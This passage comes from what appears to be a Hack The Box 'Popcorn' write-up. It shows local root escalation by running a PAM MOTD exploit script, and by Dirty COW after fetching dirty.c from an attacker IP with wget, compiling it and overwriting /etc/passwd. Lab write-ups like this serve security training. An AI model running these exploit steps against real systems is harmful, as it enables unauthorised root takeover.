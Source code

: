		```
		www-data@popcorn:/tmp$ chmod +x 14339.sh    
		```
	3. Exploit!
		```
		www-data@popcorn:/tmp$ bash 14339.sh 
		[*] Ubuntu PAM MOTD local root
		[*] Backuped /var/www/.ssh/authorized_keys
		[*] SSH key set up
		[*] Backuped /var/www/.cache
		[*] spawn ssh
		[+] owned: /etc/passwd
		[*] spawn ssh
		[+] owned: /etc/shadow
		[*] Restored /var/www/.cache
		[*] Restored /var/www/.ssh/authorized_keys
		[*] SSH key removed
		[+] Success! Use password toor to get root
		Password: 
		root@popcorn:/tmp# id;whoami
		uid=0(root) gid=0(root) groups=0(root)
		root
		root@popcorn:/tmp# 
		```
		![]({{ page.img_path }}Pasted%20image%2020220918185408.png)



# Privilege Escalation - 2

## Root -  Kernel Exploit (Dirty c0w)
1. Identify kernel version
	```
	www-data@popcorn:/home/george$ uname -a
	Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
	www-data@popcorn:/home/george$ 
	```
	- `2.6.31` - susceptible to dirtyc0w kernel exploit
2. Try `dirtyc0w` exploit
	1. Download [`dirty.c`](https://www.exploit-db.com/exploits/40839)
	2. Transfer to `popcorn.htb`
		```
		www-data@popcorn:/tmp$ wget 10.10.14.14/dirty.c
		--2022-09-18 13:26:39--  http://10.10.14.14/dirty.c
		```
	3. Compile `dirty.c`
		```
		www-data@popcorn:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
		www-data@popcorn:/tmp$ chmod +x dirty 
		```
	4. Exploit
		```
		www-data@popcorn:/tmp$ ./dirty password                 
		/etc/passwd successfully backed up to /tmp/passwd.bak
		Please enter the new password: password    
		Complete line:                             
		firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash
		                                           